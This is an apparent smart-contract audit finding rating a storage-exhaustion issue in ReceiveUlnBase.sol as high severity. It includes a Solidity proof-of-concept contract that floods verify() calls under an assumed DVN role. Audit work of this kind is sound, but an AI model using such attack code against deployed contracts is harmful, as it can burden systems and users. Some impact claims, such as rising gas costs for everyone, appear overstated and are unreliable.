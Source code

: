 ## [H-04] Storage Exhaustion Attack in ReceiveUlnBase Through Unbounded Verifications

### Description
The `ReceiveUlnBase.sol` contract's verification storage mechanism lacks limits on the number of verifications a DVN can submit. The contract uses an unbounded mapping to store verifications, which could be exploited to bloat the contract's storage and potentially make the system unusable.

```solidity
mapping(bytes32 headerHash => mapping(bytes32 payloadHash => mapping(address dvn => Verification)))
    public hashLookup;

function _verify(bytes calldata _packetHeader, bytes32 _payloadHash, uint64 _confirmations) internal {
    hashLookup[keccak256(_packetHeader)][_payloadHash][msg.sender] = Verification(true, _confirmations);
    emit PayloadVerified(msg.sender, _packetHeader, _confirmations, _payloadHash);
}
```

Key vulnerabilities:
1. No limit on verifications per DVN
2. No cleanup of old verifications
3. Storage grows unbounded
4. No rate limiting on verification submissions
5. No validation of duplicate verifications

### Impact
- Contract storage could be bloated to the point of being unusable
- Gas costs for operations would increase dramatically
- Potential denial of service through storage exhaustion
- High operational costs for legitimate users
- Potential blockchain bloat affecting node operators

### Proof of Concept
```solidity
contract StorageExhaustionAttack {
    function attack(address receiveUln) external {
        // Assuming attacker has gained DVN status
        IReceiveUln uln = IReceiveUln(receiveUln);
        
        // Generate unique packets and payloads
        for (uint i = 0; i < 1000; i++) {
            bytes memory packetHeader = _generateUniquePacket(i);
            bytes32 payloadHash = _generateUniquePayload(i);
            
            // Submit verification for each unique combination
            // Each verification adds a new storage slot
            uln.verify(packetHeader, payloadHash, 1);
        }
        
        // Result:
        // - 1000 new storage slots created
        // - No way to clean up these slots
        // - Contract storage grows linearly with attack duration
    }
    
    function calculateAttackCost(uint256 numVerifications) external pure returns (uint256) {
        // Storage slot cost = 20,000 gas
        // Each verification uses at least one slot
        return numVerifications * 20000;
    }
}
```